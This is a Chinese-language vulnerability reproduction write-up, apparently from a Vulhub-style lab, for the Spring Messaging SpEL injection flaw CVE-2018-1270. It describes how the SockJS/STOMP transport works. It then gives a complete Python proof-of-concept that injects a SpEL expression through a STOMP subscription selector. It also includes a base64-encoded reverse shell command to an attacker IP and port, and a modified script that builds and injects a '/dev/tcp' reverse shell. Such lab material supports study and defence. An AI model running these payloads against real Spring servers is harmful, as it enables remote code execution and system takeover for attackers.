



# Spring Messaging 远程命令执行漏洞 CVE-2018-1270

## 漏洞描述

spring messaging 为 spring 框架提供消息支持，其上层协议是 STOMP，底层通信基于 SockJS，

在 spring messaging 中，其允许客户端订阅消息，并使用 selector 过滤消息。selector 用 SpEL 表达式编写，并使用 `StandardEvaluationContext` 解析，造成命令执行漏洞。

参考链接：

- https://pivotal.io/security/cve-2018-1270
- https://xz.aliyun.com/t/2252
- https://cert.360.cn/warning/detail?id=3efa573a1116c8e6eed3b47f78723f12
- https://github.com/CaledoniaProject/CVE-2018-1270

## 环境搭建

执行如下命令启动漏洞环境：

```
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8080` 即可看到一个 Web 页面。

## 漏洞复现

网上大部分文章都说 spring messaging 是基于 websocket 通信，其实不然。spring messaging 是基于 sockjs（可以理解为一个通信协议），而 sockjs 适配多种浏览器：现代浏览器中使用 websocket 通信，老式浏览器中使用 ajax 通信。

连接后端服务器的流程，可以理解为：

1. 用 [STOMP协议](http://jmesnil.net/stomp-websocket/doc/) 将数据组合成一个文本流
2. 用 [sockjs协议](https://github.com/sockjs/sockjs-client) 发送文本流，sockjs 会选择一个合适的通道：websocket 或 xhr(http)，与后端通信

所以我们可以使用 http 来复现漏洞，称之为“降维打击”。

我编写了一个简单的 POC 脚本 [exploit.py](https://github.com/vulhub/vulhub/blob/master/spring/CVE-2018-1270/exploit.py)（需要用 python3.6 执行），因为该漏洞是订阅的时候插入 SpEL 表达式，而对方向这个订阅发送消息时才会触发，所以我们需要指定的信息有：

1. 基础地址，在 vulhub 中为 `http://your-ip:8080/gs-guide-websocket`
2. 待执行的 SpEL 表达式，如 `T(java.lang.Runtime).getRuntime().exec('touch /tmp/success')`
3. 某一个订阅的地址，如 vulhub 中为：`/topic/greetings`
4. 如何触发这个订阅，即如何让后端向这个订阅发送消息。在 vulhub 中，我们向 `/app/hello` 发送一个包含 name 的 json，即可触发这个事件。当然在实战中就不同了，所以这个 poc 并不具有通用性。

根据你自己的需求修改 POC。如果是 vulhub 环境，你只需修改 1 中的 url 即可。

修改 2 中的命令为 `touch /tmp/awesome_poc`，执行：



命令执行成功，文件 `awesome_poc` 被成功创建：



尝试反弹 shell，构造命令：

```
T(java.lang.Runtime).getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=}|{base64,-d}|{bash,-i}'
```

监听 9999 端口，成功接收反弹 shell：



## 漏洞 POC

```python
#!/usr/bin/env python3
import requests
import random
import string
import time
import threading
import logging
import sys
import json

logging.basicConfig(stream=sys.stdout, level=logging.INFO)

def random_str(length):
    letters = string.ascii_lowercase + string.digits
    return ''.join(random.choice(letters) for c in range(length))


class SockJS(threading.Thread):
    def __init__(self, url, *args, **kwargs):
        super().__init__(*args, **kwargs)
        self.base = f'{url}/{random.randint(0, 1000)}/{random_str(8)}'
        self.daemon = True
        self.session = requests.session()
        self.session.headers = {
            'Referer': url,
            'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)'
        }
        self.t = int(time.time()*1000)

    def run(self):
        url = f'{self.base}/htmlfile?c=_jp.vulhub'
        response = self.session.get(url, stream=True)
        for line in response.iter_lines():
            time.sleep(0.5)
    
    def send(self, command, headers, body=''):
        data = [command.upper(), '\n']

        data.append('\n'.join([f'{k}:{v}' for k, v in headers.items()]))
        
        data.append('\n\n')
        data.append(body)
        data.append('\x00')
        data = json.dumps([''.join(data)])

        response = self.session.post(f'{self.base}/xhr_send?t={self.t}', data=data)
        if response.status_code != 204:
            logging.info(f"send '{command}' data error.")
        else:
            logging.info(f"send '{command}' data success.")

    def __del__(self):
        self.session.close()


sockjs = SockJS('http://your-ip:8080/gs-guide-websocket')
sockjs.start()
time.sleep(1)

sockjs.send('connect', {
    'accept-version': '1.1,1.0',
    'heart-beat': '10000,10000'
})
sockjs.send('subscribe', {
    'selector': "T(java.lang.Runtime).getRuntime().exec('touch /tmp/success')",
    'id': 'sub-0',
    'destination': '/topic/greetings'
})

data = json.dumps({'name': 'vulhub'})
sockjs.send('send', {
    'content-length': len(data),
    'destination': '/app/hello'
}, data)
```

改动后反弹 shell poc：

```python
#!/usr/bin/env python3
from asyncio.constants import LOG_THRESHOLD_FOR_CONNLOST_WRITES
import requests
import random
import string
import time
import threading
import logging
import sys
import json
import base64

logging.basicConfig(stream=sys.stdout, level=logging.INFO)

def random_str(length):
    letters = string.ascii_lowercase + string.digits
    return ''.join(random.choice(letters) for c in range(length))


class SockJS(threading.Thread):
    def __init__(self, url, *args, **kwargs):
        super().__init__(*args, **kwargs)
        self.base = f'{url}/{random.randint(0, 1000)}/{random_str(8)}'
        self.daemon = True
        self.session = requests.session()
        self.session.headers = {
            'Referer': url,
            'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)'
        }
        self.t = int(time.time()*1000)

    def run(self):
        url = f'{self.base}/htmlfile?c=_jp.vulhub'
        response = self.session.get(url, stream=True)
        for line in response.iter_lines():
            time.sleep(0.5)
    
    def send(self, command, headers, body=''):
        data = [command.upper(), '\n']

        data.append('\n'.join([f'{k}:{v}' for k, v in headers.items()]))
        
        data.append('\n\n')
        data.append(body)
        data.append('\x00')
        data = json.dumps([''.join(data)])

        response = self.session.post(f'{self.base}/xhr_send?t={self.t}', data=data)
        if response.status_code != 204:
            logging.info(f"send '{command}' data error.")
        else:
            logging.info(f"send '{command}' data success.")

    def __del__(self):
        self.session.close()

def main():
    sockjs = SockJS(url)
    sockjs.start()
    time.sleep(1)

    sockjs.send('connect', {
        'accept-version': '1.1,1.0',
        'heart-beat': '10000,10000'
    })
    sockjs.send('subscribe', {
        'selector': "T(java.lang.Runtime).getRuntime().exec('bash -c {echo," + command.decode('utf-8') + "}|{base64,-d}|{bash,-i}')",
        'id': 'sub-0',
        'destination': subscribe_dest
    })

    data = json.dumps({'name': 'vulhub'})
    sockjs.send('send', {
        'content-length': len(data),
        'destination': send_dest
    }, data)


if __name__ == "__main__":
    url = 'http://1:8080/gs-guide-websocket'
    subscribe_dest = '/topic/greetings'
    send_dest = '/app/hello'
    lhost = '127.0.0.1'
    lport = '9999'
    command = base64.b64encode('bash -i >& /dev/tcp/{}/{} 0>&1'.format(lhost,lport).encode('utf-8'))
    main()
```
